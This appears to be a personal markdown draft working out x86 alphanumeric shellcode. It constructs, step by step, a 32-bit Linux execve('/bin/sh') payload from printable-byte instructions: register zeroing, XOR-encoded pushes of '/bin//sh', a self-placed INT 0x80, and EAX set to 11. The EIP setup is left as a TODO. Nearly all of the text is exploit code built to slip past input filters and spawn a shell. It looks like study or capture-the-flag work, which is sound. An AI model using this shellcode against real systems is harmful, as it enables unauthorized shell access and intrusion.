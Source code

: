 # Draft

## Reference
- http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
- turn on markdown syntax in VIM: ```au BufRead,BufNewFile *.md set filetype=markdown```

## Procedures
### [P1] ECX: set to 0
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 48
P:              PUSH EAX
Y:              POP ECX
```

### [P2] EDX: set to 0
```
P:              PUSH EAX
Z:              POP EDX
```

### [P3] PUSH 0 ('\0' for string "/bin/sh")
```
R:              PUSH EDX
```

### [P4] PUSH 0x68732f2f

```
INPUT:
0   0   0   0   0   0   3   0

XOR-1:
X       C       C       J
5   8   4   3   4   3   4   A

XOR-2:
0       0       l       U
3   0   3   0   6   c   5   5

TARGET:
6   8   7   3   2   f   2   f
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 J C C X:      XOR EAX, $0x5843434A
5 U l 0 0:      XOR EAX, $0x30306c55
P:              PUSH EAX
```

### [P5] PUSH 0x6e69622f

```
INPUT:
0   0   0   0   0   0   3   0

XOR-1:
Y       Y       R       J

XOR-2:
7       0       0       U

TARGET:
6   e   6   9   6   2   2   f
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 J R Y Y:      XOR EAX, $0x5959524A
5 U 0 0 7:      XOR EAX, $0x37303055
P:              PUSH EAX
T:              PUSH ESP
```

### [P6] PUSH operation "INT 0x80"

```
INPUT:
f   f   f   f   f   f   f   f

XOR-1:
0       0       G       C
3   0   3   0   4   7   4   3

XOR-2:
0       0       8       q
3   0   3   0   3   8   7   1

TARGET:
.   .   .   .   8   0   c   d
```


```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 49
5 C G 0 0:      XOR EAX, $0x30304743
5 q 8 0 0:      XOR EAX, $0x30303871
P:              PUSH EAX
```

### [P7] PUSH opration "POP EBX"

```
INPUT:
0   0   0   0   0   0   3   0

XOR:
4   F   4   F   4   F   6   B

TARGET:
4   F   4   F   4   F   5   B

- 4F: DEC EDI (NO-OP)
- 5B: POP EBX
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 k O O O:      XOR EAX, $0x4F4F4F6B
P:              PUSH EAX
P:              PUSH EAX                # should pop twice (skip INT 0x80)
```

### [P8] EAX: set to 11 (0x0b)
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * (48-11) = 37
```

### [P9] Point ESP to "POP EBX"
```
D:              INC ESP     * 12
```

### [P0] Setup EIP to our code
*TODO*
```
?:              MOV EIP, (ESP-8)
```
